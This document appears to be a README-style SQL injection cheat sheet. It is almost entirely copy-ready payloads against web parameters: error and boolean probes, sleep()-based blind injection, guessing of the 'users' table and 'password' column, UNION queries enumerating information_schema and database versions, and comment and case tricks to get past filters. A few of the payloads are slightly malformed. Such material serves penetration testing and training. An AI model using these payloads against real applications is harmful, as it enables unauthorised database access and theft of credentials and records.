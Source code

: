 SQL-Injection-cheat-sheet
First try to figure out the vulnerable parameter
NOTE: If it's a GET request don't forget to url encode the characters.

param='  --> try to get error

param="   --> try to get error

param=' or 1=1 --> try if it works

param=' or 1=0  --> check if it returns nothing

param=' and 1=1  --> check if this works or produces error
Try with blind injection payloads if above commands does not produce error


' or sleep(2) and 1=1#  --> try get delay, sleep only operates when all other conditions are true and there is a requirement to operate it.

' or sleep(2)#  --> try get delay

admin' and sleep(2)#  --> will delay only if the user admin exists

' union select sleep(2),null#  --> check if it produces delay

' union select sleep(2),null,null,null,null#  --> check if it produces delay, check for different number of columns

Try if above queries work by appending comment at the end

param=' or 1=1#  --> try if it works

param=' or 1=1 -- one space needed  --> try if it works

param=' or 1=1 //  --> try if it works

param= or 1=1#  --> try if it works

param=and or 1=1#  --> try if it works

param=' or 1=1-- sd  --> try if it works

' AND (select 1)=1 <-- This should be TRUE Response -- subselect supported

Now that we know the vulnerable parameter, let's try guessing the table name:

' AND (select 1 from admin limit 0,1)=1 <-- FALSE

' AND (select 1 from users limit 0,1)=1 <-- TRUE  ======> Table found 'users'
Guessing Columns:
' AND (select substring(concat(1,pass),1,1) from users limit 0,1)=1 <-- FALSE

' AND (select substring(concat(1,password),1,1) from users limit 0,1)=1 <-- TRUE    =====> Column 'password' found.
Now determine number of columns in the current table
param=' or 1=1 order by 1#

param=' or 1=1 order by 10#
let say there are 3 columns

Now determine vulnerable columns or columns which are visible
param=' or 1=0 union select null,null,null# --> if it produces no error then try

param=' or 1=0 union select 1,2,3#  --> check which number shows in web page
Else try

param=' or 1=1 union select table_name,null,null from information_schema.tables#

if it produces error try table_name at other positions
Now, lets say column 1,2 are shown in web page

To futher enumerate
param=' or 1=0 union select table_schema,null,null from information_schema.columns#  --> display all database name

Note 1=0 in above query to show only databases

param=' or 1=0 union select version(),null,null from information_schema.columns#  --> retrieve version

param=' or 1=0 union select @@version,null,null from information_schema.columns#  --> retrieve version in mssql

param=' or 1=0 union select substring(version(),1,1)=1,null,null from information_schema.columns#  --> return true if version is 1.x.x

param=' or 1=0 union select substring(version(),1,1)=5,null,null from information_schema.columns#  --> return true if version is 5.x.x

param=' or 1=0 union select substring(version(),3,1)=2,null,null from information_schema.columns#  --> return true if version is 5.2.x

param=' or 1=0 union select table_name,null,null from information_schema.columns#  --> display all table name

param=' or 1=1 select table_name,null,null from information_schema.columns where table_schema='public'#  --> display tables inside public database

param=' or 1=1 select column_name,null,null from information_schema.columns where table_schema='public' and table_name='info'#  --> display all columns of info table

param=' or 1=1 select table_name as table,column_name as column,null from information_schema.columns#
Let say the database name is public and table name is info with two columns in it id and name.

param=' or 1=0 union select id,null,null from public.info#  --> display id column from table "info"

param=' or 1=0 union select id,name,null from public.info#  --> display id and name column from table "info"

param=' or 1=0 union select id,name,null from public.info where id='papa'#  --> display id and name of 'papa'
BYPASSING filters
we can use case switching or commenting to bypass basic filters

param=' or 1=0 UniOn selEct id,null,null FroM public.info#

param=' or 1=0 un/**/ion sele/**/ct id,null,null fr/**/om public.info# works in mssql
For Oracle DB
Oracle does not have information schema and thus we need some alternatives for it. The link below can be helpful.

https://stackoverflow.com/questions/8739203/oracle-query-to-fetch-column-names

For Adanced exploitation, we may use sqlmap
Useful Resources
http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet

http://garage4hackers.com/showthread.php?t=1990
